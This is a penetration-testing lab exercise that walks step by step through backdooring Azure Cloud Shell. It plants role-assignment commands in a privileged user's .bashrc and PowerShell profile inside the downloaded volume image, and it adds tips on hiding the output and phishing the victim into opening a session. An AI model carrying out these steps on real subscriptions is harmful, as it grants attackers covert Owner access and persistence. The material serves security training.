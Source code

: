 


### Hands-on exercise – Backdooring Azure Cloud Shell
In this exercise, we will exploit a Cloud Shell volume image to run sensitive commands with the permissions of a privileged user when they use Cloud Shell. This will ensure privilege access persistence. The process that we will cover will follow a four-step process. 
* First, we will download the Cloud Shell volume image of a higher privileged user
* We will mount the image on the Linux VM that we deployed earlier
* We will plant commands that we want to run
* We will re-upload back into the Cloud Shell file share

1. Open a PowerShell console on your pentest VM. SSH into the Linux VM that you used in the previous exercise **`LAB07`**. Enter the password when prompted.
```
ssh linuxadmin@linuxvm-xxxxxxxxxxxxxxxxxxxxxx
```

2. In the Bash shell of the pentest Linux VM, use the following command to switch to the root user:
```
sudo su –
```

3. Authenticate to Azure CLI using the following command. Replace the **`AVA_USERNAME`** and **`AVA_PASSWORD`** placeholders with the real values of Ava's credentials from the **`LABXX-Info`** exercise file:
```
az login --username "AVA_USERNAME" --password "AVA_PASSWORD"
```

4. Run lava.py to start the Lava tool:
```
cd lava/
python3 lava.py
```

5. Verify the current user and permissions using the following command:
```
exec priv_show
```

6. Scan the file shares in the Azure subscription for potential Cloud Shell images. You can do this using the following Lava command:
```
exec stg_file_scan
```

7. The previous command takes advantage of access to the access keys to scan the file shares in an Azure subscription. You can see that we have a file share that is used by Azure Cloud Shell:

8. Download the files in the Azure file shares using the following command. Running the preceding command in an environment that has multiple file shares can take a long time to complete:
```
exec stg_file_download
```

9. This will download the file into a temporary directory on the pentest Linux VM. Make a note of the download location where it says **`files will be saved to.....`**:

10. After the download has been completed, exit Lava using the exit command:
```
exit
```

11. Back in the Bash shell, mount the downloaded image file using the following command. Replace **`<download_location>`** with the download path that you made a note of in step 9 of this exercise:
```
mount <download_location>/.cloudconsole/acc_admin.img /mnt
```

12. Explore the mounted drive by typing the following command and pressing Tab:
```
ls /mnt/
```

13. You should see an output of persistent files and data from the Cloud Shell user's previous sessions. This includes sensitive information, such as the user's shell context information.

14. Change directories to the mounted drive and enter the following command to append a malicious command to the .bashrc file, to escalate the privileges of our current Contributor user:
```
cd /mnt
echo "az role assignment create --role "Owner" --assignee $(az ad user list --display-name ava.brown | jq '.[]' | jq -r '.userPrincipalName')" >> .bashrc
```

15. **`bashrc`** is a Bash shell script that runs whenever a shell session is started interactively. The preceding command will ensure that the next time the target privileged user opens a Cloud Shell session, the command to escalate the privilege of the Ava from **`contributor`** access to **`owner`** access will be executed. 

16. To do the same thing for a PowerShell session, we will need to first create two directories in the user's home directory. This is where the PowerShell profile will live. If you get an error message about the existence of the directories, you can ignore that and move on to the next step:
```
mkdir .config
mkdir .config/PowerShell
```

17. Similar to what we did for the .bashrc file, we will make the contributoruser an owner on the subscription by adding the following command to the PowerShell profile:
```
echo "New-AzRoleAssignment -UserPrincipalName (Get-AzADUser -StartsWith ava).UserPrincipalName -RoleDefinitionName Owner" >> .config/PowerShell/Microsoft.PowerShell_profile.ps1
```

18. Unmount the drive from your session with the following command:
```
cd ..
umount /mnt
```

19. Now let's upload the drive back to the storage account and overwrite the existing version. First, we will obtain the name of the storage account and store it in a variable. Replace **`<storage_acct_name>`** with the name of the storage account that the original Cloud Shell files were downloaded from (starts with a prefix of **`cs`**):
```
az storage account list --query [].name -o tsv
storagename=<storage_acct_name>
```

20. Obtain the access key and file share and upload the image back into it using the following commands. Replace **`<download_location>`** with the location that you made a note of in **`Step 9`** of this exercise:
```
key=$(az storage account keys list -n $storagename --query [0].value -o tsv)

csfileshare=$(az storage share list --account-key $key --account-name $storagename --query [].name -o tsv)

az storage file upload --account-key $key --account-name $storagename --share-name $csfileshare --path ".cloudconsole/acc_admin.img" --source "<download_location>/.cloudconsole/acc_admin.img"
```

21. The upload process will begin after this. This will overwrite the existing file in the share. 

22. Finally, we will need to trigger the attack by opening a Cloud Shell instance as the **`admin`** user account. To do this, we will log in as the **`admin`** account and open Cloud Shell in the portal. We can see that our commands were executed in the Cloud Shell instance, and Ava's account is now an owner on the subscription:

23. As an attacker, we may want to be a little stealthier about our actions in this scenario. To suppress the message we see in the preceding screenshot, you can use the **`| out-null`** function at the end of the PowerShell command to redirect the output. Alternatively, we can use **`&>/dev/null`** at the end of the Bash shell attack. This will prevent the command execution from showing up in your admin's Cloud Shell output.

24. In a practical attack scenario, it may take a while for a victim Cloud Shell account to open a new session. To expedite this process, you could send a phishing email that links to https://shell.azure.com/. Not only will the link look legitimate, but it will start up a Cloud Shell session as soon as the site is loaded.

25. Now let's verify that we have indeed escalated our privileges to the Owner role. We can run the priv_show command in Lava to verify this:
```
cd ~/lava
python3 lava.py
exec priv_show
```

26. You should be able to see that the user is now assigned to the OWNER role due to a successful privilege escalation attack. This also ensures that if the permission was removed from the user, it will be re-added the next time the user opens a Cloud Shell session - essentially giving us persistence.
